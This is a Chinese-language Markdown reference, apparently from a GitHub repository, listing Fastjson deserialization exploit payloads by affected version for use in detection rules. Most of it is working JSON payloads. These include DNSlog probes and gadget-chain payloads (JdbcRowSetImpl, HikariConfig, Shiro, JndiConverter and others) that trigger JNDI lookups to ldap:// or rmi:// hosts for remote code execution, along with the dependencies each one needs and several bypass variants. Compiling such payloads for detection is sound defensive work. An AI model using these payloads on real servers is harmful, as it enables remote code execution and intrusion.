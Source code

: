 # Fastjson漏洞利用代码分析（检测规则参考）
截止2020年8月21日，根据公开信息，Fastjson <=1.2.68版本均可能存在严重漏洞。

以下是fastjson漏洞的利用代码，可作为参考，进行检测规则的升级

## Fastjson漏洞的利用代码

以下漏洞利用代码可用于探测后端是否使用了fastjson，是攻击者打点入侵的前兆，建议做【检测】处理（其中：dnslog往往是外部的域名或链接），每一行的json都是一个可能有效的payload

```json
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL","val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL","val":"dnslog"}]
Set[{"@type":"java.net.URL","val":"dnslog"}
{{"@type":"java.net.URL","val":"dnslog"}:0
```

以下漏洞利用代码被服务端成功解析后，会导致远程命令执行，危害极大，建议做【封禁】处理。

注意：下文中，RCE代表Remote Code Execution（远程代码执行）

### HadoopHikari RCE（<= 1.2.68）

fastjson <= 1.2.68 RCE，需要开启 AutoType 
依赖库：
```xml
<dependency>
    <groupId>org.apache.hadoop</groupId>
    <artifactId>hadoop-client-minicluster</artifactId>
    <version>3.2.1</version>
</dependency>
```
漏洞利用代码

```json
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://[evil]/Calc"}


{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://[evil]/1pndqv"}
```

### Shiro RCE（<= 1.2.66）（高频率）

fastjson <= 1.2.66 RCE，需要开启 AutoType

依赖shiro-core，即

```xml
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-core</artifactId>
</dependency>
```

漏洞利用代码

```json
{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory", "jndiNames":["ldap://localhost:43658/Calc"], "Realms":[""]}
```

### JndiConverter RCE（<= 1.2.62）

fastjson 版本小于<= 1.2.62 RCE，需要开启AutoType，且依赖XBean-reflect ，即

```xml
<dependency>
    <groupId>org.apache.xbean</groupId>
    <artifactId>xbean-reflect</artifactId>
</dependency>
```

漏洞利用代码

```json
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","asText":"ldap://localhost:43658/Calc"}
```



### IbatisSqlmap RCE（<= 1.2.62）

fastjson <= 1.2.62 RCE，需要开启AutoType，且需要如下依赖

```xml
<dependency>
    <groupId>org.apache.ibatis</groupId>
    <artifactId>ibatis-sqlmap</artifactId>
    <version>2.3.4.726</version>
</dependency>
<dependency>
    <groupId>javax</groupId>
    <artifactId>javaee-api</artifactId>
    <version>8.0.1</version>
</dependency>
```

漏洞利用代码

```json
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://localhost:43658/Calc"}}
```



### CocoonSlide RCE（<= 1.2.62）

fastjson <= 1.2.62 RCE，需要开启AutoType，且因为引用了javax/jms/JMSException类，所以必须在javaee环境下，需要如下依赖

```xml
<dependency>
    <groupId>slide</groupId>
    <artifactId>slide-kernel</artifactId>
    <version>2.1</version>
</dependency>
<dependency>
    <groupId>cocoon</groupId>
    <artifactId>cocoon-slide</artifactId>
    <version>2.1.11</version>
</dependency>
```

漏洞利用代码

```json
{"@type":"org.apache.cocoon.components.slide.impl.JMSContentInterceptor", "parameters": {"@type":"java.util.Hashtable","java.naming.factory.initial":"com.sun.jndi.rmi.registry.RegistryContextFactory","topic-factory":"ldap://127.0.0.1:43658/Calc"}, "namespace":""}

```

### Anteros RCE（<=1.2.62）

fastjson <= 1.2.62 RCE，需要开启 AutoType，且需要如下依赖

```xml
<dependency>
    <groupId>com.codahale.metrics</groupId>
    <artifactId>metrics-healthchecks</artifactId>
    <version>3.0.2</version>
</dependency>
<dependency>
    <groupId>br.com.anteros</groupId>
    <artifactId>Anteros-Core</artifactId>
    <version>1.2.1</version>
</dependency>
<dependency>
    <groupId>br.com.anteros</groupId>
    <artifactId>Anteros-DBCP</artifactId>
    <version>1.0.1</version>
</dependency>
```

漏洞利用代码

```json
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","healthCheckRegistry":"ldap://localhost:43658/Calc"}
```

### CommonsProxy RCE（<=1.2.61）

CommonsProxy fastjson <= 1.2.61 RCE，需要开启AutoType，需要如下依赖

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-proxy</artifactId>
</dependency>
```

漏洞利用代码

```
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://localhost:43658/Calc","Object":"a"}
```

### HikariConfig RCE（<=1.2.59）

fastjson <= 1.2.59 RCE，需要开启 AutoType，需要如下依赖

```xml
<dependency>
    <groupId>com.zaxxer</groupId>
    <artifactId>HikariCP</artifactId>
</dependency>
```

漏洞利用代码

```json
{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:43658/Calc"}

{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:43658/Calc"}
```

### JdbcRowSetImpl RCE（<= 1.2.48）（常用）

fastjson 1.2.48 以下不需要任何配置或依赖，默认配置通杀 RCE

漏洞利用代码

```json
[{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:43658/Calc","autoCommit":true}]
```



## 1.2.47以下版本漏洞利用代码

版本 Payload
```json
1.2.24
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true}}

未知版本(1.2.24-41之间)
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}

1.2.41
{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}

1.2.42
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true};

1.2.43
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true]}

1.2.45
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://localhost:1099/Exploit"}}

1.2.47
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}}}
```

## 参考链接

[Fastjson 漏洞利用](http://dream0x01.com/spear-framework/#/fastjson/fastjson?id=%e4%be%9d%e8%b5%96-6)

[security_update_20200601-安全公告20200601](https://github.com/alibaba/fastjson/wiki/security_update_20200601)

[update_faq_20190722-FASTJSON升级常见问题解答](https://github.com/alibaba/fastjson/wiki/update_faq_20190722)

